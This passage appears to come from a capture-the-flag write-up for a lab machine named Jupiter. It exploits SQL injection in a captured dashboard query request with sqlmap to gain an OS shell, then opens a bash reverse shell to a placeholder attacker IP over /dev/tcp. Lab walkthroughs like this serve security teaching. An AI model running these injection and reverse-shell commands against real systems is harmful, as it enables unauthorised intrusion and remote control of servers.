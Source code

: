 ```
Origin: http://kiosk.jupiter.htb
Content-Length: 391
Connection: close
Cookie: redirect_to=%2Fd%2FjMgFGfA4z%2Fmoons%3ForgId%3D1%26refresh%3D1d

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  count(parent) \nfrom \n  moons \nwhere \n  parent = 'Neptune';","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":940}],"range":{"from":"2023-06-16T12:18:36.424Z","to":"2023-06-16T18:18:36.424Z","raw":{"from":"now-6h","to":"now"}},"from":"1686917916424","to":"1686939516424"}
```

Confirm that the request is usable.

```bash
sqlmap -r kiosk.req # change filename as needed
```

![[img/replace-me-11.png]]

### Testing for vulnerability to `--os-shell`
`sqlmap --help`: 
![[img/replace-me-12.png]]

So far, we've confirmed that the captured injectible request is usable by `sqlmap`. Use the command below to gain an `--os-shell` on the target:

```bash
sqlmap -r kiosk.req --os-shell
```

The output from this shell is really cluttered, so it's not shown here.  Do some poking around to confirm these things:

* cwd of `--os-shell` is `/var/lib/postgresql/14/main`
* it is not possible to change directories, but you can read other directories and files
* you can use this shell to reach back to the attacker machine

![[img/replace-me-13.png]]

![[img/replace-me-14.png]]

The two images above confirm that we can 
1. use `wget` to transfer files from the attacker machine to the target, and
2. write to `/var/lib/postgresql/14/main`

### reverse shell
Set up a listener on the attacker and use your favorite reverse shell to connect back.  Shown here is a variant of the bash one-liner.

```bash
os-shell> bash -c 'bash -i >& /dev/tcp/<attacker ip>/<port> 0>&1'
```


## Further enumeration
While we have a shell, do some light enumeration.  Look for other users on the box, other services, and SUID binaries.
